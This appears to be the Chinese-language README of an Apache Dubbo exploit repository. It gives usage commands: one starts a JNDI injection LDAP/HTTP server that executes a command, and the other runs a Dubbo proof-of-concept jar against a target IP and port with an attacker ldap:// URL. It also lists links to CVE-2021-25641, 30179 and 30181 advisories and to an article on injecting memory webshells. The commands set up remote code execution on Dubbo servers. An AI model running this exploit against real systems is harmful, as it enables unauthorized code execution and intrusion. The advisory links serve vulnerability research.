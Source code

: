 
## 用法
```bash
启动ldap服务和HTTP服务：

java -jar C:\Users\Administrator\Downloads\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc

java -jar Dubbo-PoC-Spring-2.7.7.jar ip port ldap://ip:port/test
```


## CVEs

- [【漏洞通告】Apache Dubbo多个高危漏洞（CVE-2021-25641等）](https://mp.weixin.qq.com/s/vUdsgOSymEzWeAXkfK3Abw)
- https://wx.zsxq.com/dweb2/index/topic_detail/818554241114512
- [Dubbo Consumer脚本注入RCE - CVE-2021-30181](https://threedr3am.github.io/2021/05/30/Dubbo%20Consumer%E8%84%9A%E6%9C%AC%E6%B3%A8%E5%85%A5RCE%20-%20CVE-2021-30181/)
- [CVE-2021-30179 - Dubbo Pre-auth RCE via Java deserialization in the Generic filter](https://threedr3am.github.io/2021/06/01/CVE-2021-30179%20-%20Dubbo%20Pre-auth%20RCE%20via%20Java%20deserialization%20in%20the%20Generic%20filter/)
- https://securitylab.github.com/research/apache-dubbo/
- https://securitylab.github.com/advisories/GHSL-2021-097-apache-dubbo/
- [浅析Dubbo Kryo/FST反序列化漏洞（CVE-2021-25641）](https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/)
- https://checkmarx.com/blog/technical-blog/the-0xdabb-of-doom-cve-2021-25641/
- [dubbo中使用hessian_http/dubbo协议注入内存马](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/dubbo%E6%B3%A8%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC/)
